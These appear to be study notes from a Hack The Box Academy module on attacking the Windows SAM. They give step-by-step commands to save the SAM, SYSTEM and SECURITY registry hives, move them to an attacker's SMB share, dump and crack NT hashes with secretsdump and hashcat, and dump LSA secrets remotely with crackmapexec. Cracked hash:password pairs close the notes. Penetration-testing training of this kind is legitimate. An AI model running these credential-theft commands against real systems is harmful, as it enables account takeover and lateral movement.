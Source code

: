 #### Copying SAM Registry Hives

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. Here is a brief description of each in the table below:

|Registry Hive|Description|
|---|---|
|`hklm\sam`|Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.|
|`hklm\system`|Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.|
|`hklm\security`|Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.|

We can create backups of these hives using the `reg.exe` utility.

#### Using reg.exe save to Copy Registry Hives

Launching CMD as an admin will allow us to run reg.exe to save copies of the aforementioned registry hives. Run these commands below to do so:

  Attacking SAM

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

Technically we will only need `hklm\sam` & `hklm\system`, but `hklm\security` can also be helpful to save as it can contain hashes associated with cached domain user account credentials present on domain-joined hosts. Once the hives are saved offline, we can use various methods to transfer them to our attack host. In this case, let's use [Impacket's smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) in combination with some useful CMD commands to move the hive copies to a share created on our attack host.


#### Creating a Share with smbserver.py

All we must do to create the share is run smbserver.py -smb2support using python, give the share a name (`CompData`) and specify the directory on our attack host where the share will be storing the hive copies (`/home/ltnbob/Documents`). Know that the `smb2support` option will ensure that newer versions of SMB are supported. If we do not use this flag, there will be errors when connecting from the Windows target to the share hosted on our attack host. Newer versions of Windows do not support SMBv1 by default because of the [numerous severe vulnerabilites](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=smbv1) and publicly available exploits.#### Creating a Share with smbserver.py

All we must do to create the share is run smbserver.py -smb2support using python, give the share a name (`CompData`) and specify the directory on our attack host where the share will be storing the hive copies (`/home/ltnbob/Documents`). Know that the `smb2support` option will ensure that newer versions of SMB are supported. If we do not use this flag, there will be errors when connecting from the Windows target to the share hosted on our attack host. Newer versions of Windows do not support SMBv1 by default because of the [numerous severe vulnerabilites](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=smbv1) and publicly available exploits.

```shell-session
pepedavidphone@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```
Once we have the share running on our attack host, we can use the `move` command on the Windows target to move the hive copies to the share.

#### Moving Hive Copies to Share

  Attacking SAM

```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```
## Dumping Hashes with Impacket's secretsdump.py

One incredibly useful tool we can use to dump the hashes offline is Impacket's `secretsdump.py`. Impacket can be found on most modern penetration testing distributions. We can check for it by using `locate` on a Linux-based system:

#### Locating secretsdump.py

```shell-session
pepedavidphone@htb[/htb]$ locate secretsdump 
```
Using secretsdump.py is a simple process. All we must do is run secretsdump.py using Python, then specify each hive file we retrieved from the target host.

#### Running secretsdump.py
```shell-session
pepedavidphone@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
![[Pasted image 20250515125455.png]]
Here we see that secretsdump successfully dumps the `local` SAM hashes and would've also dumped the cached domain logon information if the target was domain-joined and had cached credentials present in hklm\security. Notice the first step secretsdump executes is targeting the `system bootkey` before proceeding to dump the `LOCAL SAM hashes`. It cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database, which is why it is important for us to have copies of the registry hives we discussed earlier in this section. Notice at the top of the secretsdump.py output:
```shell-session
Dumping local SAM hashes (uid:rid:lmhash:nthash)
```
This tells us how to read the output and what hashes we can crack. Most modern Windows operating systems store the password as an NT hash. Operating systems older than Windows Vista & Windows Server 2008 store passwords as an LM hash, so we may only benefit from cracking those if our target is an older Windows OS.

Knowing this, we can copy the NT hashes associated with each user account into a text file and start cracking passwords. It may be beneficial to make a note of each user, so we know which password is associated with which user account.

## Cracking Hashes with Hashcat
#### Adding nthashes to a .txt File
![[Pasted image 20250515125648.png]]

#### Running Hashcat against NT Hashes
Hashcat has many different modes we can use. Selecting a mode is largely dependent on the type of attack and hash type we want to crack. Covering each mode is beyond the scope of this module. We will focus on using `-m` to select the hash type `1000` to crack our NT hashes (also referred to as NTLM-based hashes). We can refer to Hashcat's [wiki page](https://hashcat.net/wiki/doku.php?id=example_hashes) or the man page to see the supported hash types and their associated number. We will use the infamous rockyou.txt wordlist mentioned in the `Credential Storage` section of this module.

```shell-session
pepedavidphone@htb[/htb]$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```
![[Pasted image 20250515125730.png]]We can see from the output that Hashcat used a type of attack called a [dictionary attack](https://en.wikipedia.org/wiki/Dictionary_attack) to rapidly guess the passwords utilizing a list of known passwords (rockyou.txt) and was successful in cracking 3 of the hashes. Having the passwords could be useful to us in many ways. We could attempt to use the passwords we cracked to access other systems on the network. It is very common for people to re-use passwords across different work & personal accounts. Knowing this technique, we covered can be useful on engagements. We will benefit from using this any time we come across a vulnerable Windows system and gain admin rights to dump the SAM database.

Keep in mind that this is a well-known technique, so admins may have safeguards to prevent and detect it. We can see some of these ways [documented](https://attack.mitre.org/techniques/T1003/002/) within the MITRE attack framework.

## Remote Dumping & LSA Secrets Considerations

With access to credentials with `local admin privileges`, it is also possible for us to target LSA Secrets over the network. This could allow us to extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords.

#### Dumping LSA Secrets Remotely

```shell-session
pepedavidphone@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
![[Pasted image 20250515125842.png]]
#### Dumping SAM Remotely

```shell-session
pepedavidphone@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```
![[Pasted image 20250515125911.png]]

c02478537b9727d391bc80011c2e2321:matrix                   
31d6cfe0d16ae931b73c59d7e0c089c0:                         
58a478135a93ac3bf058a5ea0e8fdb71:Password123 